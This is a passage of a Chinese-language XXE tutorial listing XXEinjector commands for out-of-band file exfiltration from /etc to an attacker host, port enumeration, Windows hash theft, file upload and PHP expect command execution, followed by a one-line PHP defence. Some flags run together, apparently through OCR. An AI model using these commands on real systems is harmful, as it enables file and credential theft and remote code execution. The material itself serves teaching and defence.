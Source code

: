
二次漏洞利用：

```
ruby XXEinjector.rb --host=192.168.0.2 --path=/etc --file=/tmp/vulnreq.txt--2ndfile=/tmp/2ndreq.txt
```

使用HTTP带外方法和netdoc协议对文件进行爆破攻击：

```
ruby XXEinjector.rb --host=192.168.0.2 --brute=/tmp/filenames.txt--file=/tmp/req.txt --oob=http –netdoc
```

通过直接性漏洞利用方式进行资源枚举：

```
ruby XXEinjector.rb --file=/tmp/req.txt --path=/etc --direct=UNIQUEMARK
```

枚举未过滤的端口：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --enumports=all
```

窃取Windows哈希：

```
ruby XXEinjector.rb--host=192.168.0.2 --file=/tmp/req.txt –hashes
```

使用Java jar上传文件：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt--upload=/tmp/uploadfile.pdf
```

使用PHP expect执行系统指令：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt --oob=http --phpfilter--expect=ls
```

测试XSLT注入：

```
ruby XXEinjector.rb --host=192.168.0.2 --file=/tmp/req.txt –xslt
```

记录请求信息：

```
ruby XXEinjector.rb --logger --oob=http--output=/tmp/out.txt
```

## XXE 漏洞修复与防御方案

推荐使用开发语言提供的禁用外部实体的方法。

PHP：

```
libxml_disable_entity_loader(true);
```
